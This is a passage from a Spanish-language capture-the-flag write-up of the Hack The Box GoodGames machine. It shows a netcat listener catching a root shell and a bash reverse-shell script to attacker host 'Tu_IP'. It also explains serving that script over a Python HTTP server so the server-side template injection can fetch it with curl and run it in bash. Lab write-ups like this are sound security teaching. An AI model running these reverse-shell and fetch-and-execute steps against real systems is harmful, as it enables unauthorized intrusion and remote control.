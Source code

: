 Observa la **netcat**:
```bash
nc -nlvp 443
listening on [any] 443 ...
connect to [Tu_IP] from (UNKNOWN) [10.10.11.130] 34808
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@3a453ab39d3d:/backend# whoami
whoami
root
```

<br>

<h3 id="revShell2">Usando Plantilla HTML que Almacena una Reverse Shell para Ganar Acceso a la Máquina</h3>

Primero, vamos a guardar la **Reverse Shell** en un archivo que llamamos **index.html**:
```bash
#!/bin/bash
bash -i >& /dev/tcp/Tu_IP/443 0>&1
```

Ahora, abre un servidor de **Python**:
```bash
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Abre una **netcat**:
```bash
nc -nlvp 443
listening on [any] 443 ...
```

Y en la **SSTI**, vamos a usar **curl** para que entre a nuestro servidor y ahí mismo, le indicamos que lo que encuentre, lo interprete con **Bash**:

<p align="center">
<img src="/assets/images/htb-writeup-goodgames/Captura46.png">
</p>
